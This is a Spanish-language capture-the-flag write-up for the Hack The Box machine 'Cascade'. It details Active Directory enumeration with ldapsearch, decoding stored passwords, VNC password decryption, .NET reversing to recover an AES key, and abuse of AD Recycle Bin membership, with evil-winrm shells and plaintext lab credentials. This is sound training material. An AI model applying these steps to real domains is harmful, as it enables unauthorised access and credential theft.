

# Cascade

**OS**: Windows \
**Dificultad**: Medio \
**Puntos**: 30

## Resumen
- Enumeración SMB
- ldapsearch
- VNC password decrypt
- Reversing .exe y .dll 
- AD Recycle Bin

## Nmap Scan
`nmap -sV -sC -p- -T3 -sS -Pn 10.10.10.182`

```
Nmap scan report for 10.10.10.182
Host is up (0.067s latency).
Not shown: 65520 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-29 14:58:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m21s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-03-29T14:59:24
|_  start_date: 2020-03-29T14:54:48
                                                                                                                                                                                                                                           
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                                                             
# Nmap done at Sun Mar 29 08:59:38 2020 -- 1 IP address (1 host up) scanned in 321.87 seconds
```

## Enumeración

Enumeramos el servicio **smb** que corre en los puertos **135, 139 y 445** con la herramienta llamada **enum4linux**.

`enum4linux -a 10.10.10.182`


Se visualizan unos cuantos usuarios que utilizaremos para enumerar **ldap** en el puerto **636, 3268** utilizando **ldapsearch**.

> Un cliente LDAP puede usar el mecanismo de autenticación anónima del método Bind simple para establecer explícitamente un estado de autorización anónimo enviando una solicitud Bind con un valor de nombre de longitud cero y especificando la opción de autenticación simple que contiene un valor de contraseña de longitud cero.

Entonces comenzamos sin especificar nombre de usuario o contraseña.

`ldapsearch -H ldap://10.10.10.182 -x -s base '' "(objectClass=*)" "*" +`


La conexión nula funciona pero no nos trae información muy relevante más que el nombre de dominio. Esto nos ayudará para ver si podemos traer registros mediante ldap.

`ldapsearch -H ldap://10.10.10.182 -x -b DC=cascade,DC=local`


Podemos ver que nos trae bastante información pero con ayuda de la lista de usuarios nos percatamos que el usuario **r.thompson** tiene un parámetro único llamado **cascadeLegacyPwd** con un valor en base64.

- `ldapsearch -H ldap://10.10.10.182 -x -b DC=cascade,DC=local | grep -A 10 -C 32 r.thompson`
- `ldapsearch -H ldap://10.10.10.182 -x -b "CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local"`


Hacemos el decode al string en base64 para obtener el password del usuario **r.thompson**.

`echo clk0bjVldmE= | base64 -d`

usuario: r.thompson \
passowrd: rY4n5eva

## Enumeración SMB

Utilizando las credenciales procedemos a enumerar el servicio smb.

`smbclient -L 10.10.10.182 -U r.thompson`


Después de dar unas cuantas vueltas por los directorios, nos encontramos con 3 archivos interesantes; el más importante por el momento es **VNC Install.reg**.


##### Meeting_Notes_June_2018.html



##### ArkAdRecycleBin.log


##### VNC Install.reg


### VNC Decrypt

En el archivo **VNC Install.reg** se puede ver un parámetro llamado **Password** el cual tiene valores en hexadecimal.

Utilizando la herramienta llamada [vncpwd.exe](https://www.raymond.cc/blog/crack-or-decrypt-vnc-server-encrypted-password/) podemos hacer decrypt de esos valores para obtener la cadena en texto plano. Esto lo realizamos en un entorno Windows.

`vncpwd.exe 6bcf2a4b6e5aca0f`


Utilizando **evil-winrm** es posible conseguir una shell con el usuario **s.smith** y posteriormente **user.txt**.

`evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2`


## Escalada de Privilegios (User)

Regresamos a enumerar el servicio **smb** con las nuevas credenciales, ahora accediendo a la carpeta **Audit$** la cual no teníamos acceso con el usuario **r.thompson**.

Obtenemos los archivos **CascAudit.exe**, **CascCrypto.dll** y **Audit.db**.

`smbclient //10.10.10.182/Audit$ -U s.smith`


Abrimos **Audit.db** con **DB Browser for SQLite**.

##### Audit.db


Se puede visualizar un valor en base64 el cual no es posible conseguir el texto plano como lo habíamos hecho antes por lo cual procedemos a realizar reversing a los archivos **CascAudit.exe** y **CascCrypto.dll** con ayuda de la herramienta **ILSpy** en un entorno Windows.

### ILSpy Reversing

Abrimos los 2 archivos mencionados en el programa y nos damos cuenta de que está usando **AES** para encryptar el password y podemos ver que la llave y el IV están en esos archivos los cuales nos ayudan a obtener el password en texto plano de la cadena que obtuvimos en el archivo **Audit.db**.

##### CascAudit.exe


##### CascCrypto.dll


Utilizando la misma función **DecryptString** escrita en lenguaje de programación **C#** podemos pasarle los parámetros y obtener el password.

Podemos utilizar esta [página](https://dotnetfiddle.net/) para ejecutar nuestro código.


Una segunda opcion para obtener el password es utilizando esta [página](https://www.devglan.com/online-tools/aes-encryption-decryption).


Posteriormente utilizamos **evil-winrm** para obtener shell.

`evil-winrm -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd`


## Escalada de Privilegios (Administrator)

Si recordamos los archivos **ArkAdRecycleBin.log** y **Meeting_Notes_June_2018.html** tenían información importante sobre el usuario **arksvc** y **TempAdmin**.

Podemos ver que el usuario **arksvc** pertenece al grupo **AD Recycle Bin**.

`net user arksvc`


Investigando un poco sobre ese grupo nos encontramos que tenemos la capacidad de consultar registros eliminados y si recordamos **TempAdmin**  fue borrado y tiene el mismo password que el usuario **Administrator**.

`Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *`


Se puede visualizar el parámetro **cascadeLegacyPwd** el cual tiene un valor en base64. Procedemos a extraer el texto plano para posteriormente obtener una shell como **Administrator**.

`echo YmFDVDNyMWFOMDBkbGVz | base64 -d`

`evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles`


## Referencias
https://ivanitlearning.wordpress.com/2019/03/24/root-me-ldap-null-bind/ \
https://www.raymond.cc/blog/crack-or-decrypt-vnc-server-encrypted-password/ \
https://github.com/Hackplayers/evil-winrm \
https://github.com/icsharpcode/ILSpy/releases \
https://dotnetfiddle.net/ \
https://www.devglan.com/online-tools/aes-encryption-decryption \
https://www.poweradmin.com/blog/restoring-deleted-objects-from-active-directory-using-ad-recycle-bin/